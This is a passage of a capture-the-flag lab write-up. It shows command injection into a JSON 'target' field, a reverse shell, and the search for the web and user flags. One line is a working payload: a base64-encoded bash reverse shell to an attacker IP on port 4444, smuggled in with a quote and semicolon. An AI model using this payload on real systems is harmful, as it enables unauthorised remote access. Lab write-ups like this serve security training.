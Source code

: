 Next, we send in the following payload:

```
{"target":"\";echo YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC40LjYuMjA1LzQ0NDQgMD4mMQo= | base64 -d | bash; \""}
```

The server will thus decode our reverse shell command, then pipe it over to bash to be run.

The reverse shell was then successfully opened:

![screenshot12](../assets/images/year_of_the_fox/screenshot12.png)

We're in! :smiley:

We can find the **web flag** in /var/www:

![screenshot13](../assets/images/year_of_the_fox/screenshot13.png)

---

### [ What is the user flag? ]

Moving over to the /home directory, we can see the 2 users that we enumerated earlier on:

![screenshot14](../assets/images/year_of_the_fox/screenshot14.png)

Unfortunately, we do not have the permissions to navigate into their directories.

Next, I dug around the machine to see if I could find any interesting files or directories. Moving back to /var/www/files, I found the 3 files that were returned to us on the website earlier:

![screenshot15](../assets/images/year_of_the_fox/screenshot15.png)
